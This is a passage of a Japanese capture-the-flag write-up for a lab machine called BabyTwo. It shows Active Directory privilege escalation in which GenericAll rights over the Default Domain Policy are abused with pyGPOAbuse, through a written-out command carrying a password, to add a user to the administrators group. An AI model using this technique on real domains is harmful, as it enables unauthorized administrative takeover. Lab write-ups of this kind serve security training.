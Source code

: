```

```
ドメイン内に2つのGPOがあることがわかる
Default Domain Policyは、ドメイン全体のすべてのコンピュータとユーザーのポリシーだから、これに対して、GPOADMがGenericAll権限があるってことは、GPOADM自身を管理者グループに入れることができてしまうということ

# Privilege Escalation
## GPOADMの権限昇格
パスワードを強制変更したGPOADMは何ができるかをBloodHoundで見る
![](https://i.imgur.com/GwNewAR.png)
DEFAULT DOMAIN POLICYにGeneric All権限を持ってる
Default Domain Policyは、ドメイン全体のすべてのコンピュータとユーザーのポリシーだから、これに対して、GPOADMがGenericAll権限があるってことは、GPOADM自身を管理者グループに入れることができてしまうということ

DEFAULT DOMAIN POLICYに対するGenericALLのLinuxAbuse翻訳コピペ
- GPO のフルコントロール権限を持っている場合、その GPO を自由に編集でき、その変更は GPO の適用対象となるユーザーやコンピューターに反映されます。
- 悪意のあるポリシーを適用したいターゲットオブジェクトを選択し、**gpedit の GUI を使って GPO を編集**します。
- このとき、アイテムレベルのターゲティングが可能な「悪意あるポリシー」（たとえば即時スケジュールタスクの追加など）を設定します。
- その後、**グループポリシークライアントが新しいポリシーを取得・実行するまで少なくとも 2 時間待ちます**。
- この手法の詳細な解説については、参考文献タブを参照してください。
- この目的には **pyGPOAbuse.py** を使用することも可能です。

### pyGPOAbuse.py
ダウンロード
```sh
git clone https://github.com/Hackndo/pyGPOAbuse
pip install -r requirements.txt
```

GPOADMを管理者グループに追加する
- 「31B2F340-016D-11D2-945F-00C04FB984F9」は、Default Domain PolicyのGUID
```sh
┌──(venv)─(kali㉿kali)-[~/Desktop/HTB/BabyTwo/pyGPOAbuse]
└─$ python pygpoabuse.py baby2.vl/GPOADM:SuperPass123! -gpo-id 31B2F340-016D-11D2-945F-00C04FB984F9 -command 'net localgroup administrators GPOADM /add' -f
[+] ScheduledTask TASK_c0847a16 created!

```

GPOを強制適用 & 管理者グループを確認
```sh
PS C:\Users\Amelia.Griffiths\Desktop> gpupdate /force
Updating policy...



Computer Policy update has completed successfully.



The following warnings were encountered during computer policy processing:



Windows could not record  the Resultant Set of Policy (RSoP) information for the Group Policy extension <Security>. Group Policy settings successfully applied to the computer or user; however, management tools may not report accurately.

User Policy update has completed successfully.


```